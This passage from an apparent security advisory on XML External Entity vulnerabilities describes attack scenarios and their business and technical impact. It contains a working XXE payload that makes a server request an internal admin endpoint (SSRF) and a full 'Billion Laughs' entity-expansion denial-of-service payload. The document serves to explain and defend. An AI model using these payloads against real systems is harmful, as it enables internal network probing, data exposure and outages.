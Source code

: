 ```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://internal-service.local:8080/admin/users">
]>
<root>
  <data>&xxe;</data>
</root>

```

This payload causes the server to make an HTTP request to an internal service, potentially accessing resources that should only be available within the internal network. The response from the internal service might be returned to the attacker, allowing them to map the internal network and access restricted services.

**Scenario 3: Denial of Service via Entity Expansion**
An attacker sends a "Billion Laughs" attack payload designed to exhaust server resources:

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

```

When parsed, this XML causes exponential entity expansion, potentially consuming all available memory and CPU resources, leading to a denial of service condition.

# Impact Analysis
**Business Impact:**
- Potential data breaches leading to exposure of sensitive customer information and intellectual property
- Regulatory compliance violations (GDPR, CCPA, etc.) if personal data is compromised
- Financial losses from remediation costs, potential fines, and business disruption
- Reputational damage affecting customer trust and business relationships
- Legal liability from failure to implement standard security controls
- Extended incident response efforts to identify what data may have been compromised

**Technical Impact:**
- Unauthorized access to sensitive configuration files, including database credentials, API keys, and other secrets
- Ability to read internal system files containing potentially sensitive information
- Server-Side Request Forgery enabling attackers to probe and interact with internal systems
- Potential for privilege escalation if sensitive credential information is exposed
- Denial of service through resource exhaustion affecting application availability
- Possible lateral movement throughout internal infrastructure if internal network details are exposed
- Undermined integrity of the application's security architecture
- Additional attack surface for secondary exploitation attempts
